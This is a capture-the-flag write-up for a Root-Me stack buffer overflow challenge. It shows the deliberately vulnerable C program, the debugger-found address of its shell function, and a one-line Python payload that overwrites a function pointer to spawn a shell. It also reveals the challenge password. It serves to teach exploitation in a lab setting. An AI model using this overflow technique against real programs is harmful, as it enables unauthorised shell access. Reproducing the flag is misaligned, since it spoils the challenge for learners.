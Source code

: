 # ELF x86 - Stack buffer overflow basic 2
- Point: 10pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en), 10 April 2015
- Level: Very Easy <br><br>
![image](https://user-images.githubusercontent.com/48288606/141502136-47d2b4bd-50fe-47af-80a9-e3c294bfbf01.png)

## Write-up:
Code:
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
void shell() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}
 
void sup() {
    printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
 
void main()
{
    int var;
    void (*func)()=sup;
    char buf[128];
    fgets(buf,133,stdin);
    func();
}
```
## Write-up:
- As a normal code flow, the program will point to the address of **sup()** function and execute it. So we need to override the "ret addr" and point it to **shell()** function. - Using gdb and disassembler the **main()** function:<br>
![image](https://user-images.githubusercontent.com/48288606/141277701-1e1e1c08-997a-47ba-be6a-1129505aee79.png)
 
- Poke around and find the **shell()**'s address at **0x08048516**:<br>
![image](https://user-images.githubusercontent.com/48288606/141276299-ec52a57d-f7cb-48de-a655-2862d97402c3.png)
- Let's try filling with 128 arbitrary bytes and the address of **sup()** function at **0x08048559**
```
app-systeme-ch15@challenge02:~$ python -c "print('a'*128+'\x59\x85\x04\x08')" | ./ch15
Hey dude ! Waaaaazzaaaaaaaa ?!
Segmentation fault
```
"Segmentation fault" cuz we're executing onto a sensitive part of stack, don't mind that. Clearly, we can access to the satisfying function and carry out the code
### Solution:
- First we will fill the **buf**'s value with 128 "A" characters, and then push the address of the **shell()** function. <br>
Payload: `(python -c "print('a'*128+'\x16\x85\x04\x08')";cat) | ./ch15` <br>
Password: B33r1sSoG0oD4y0urBr4iN

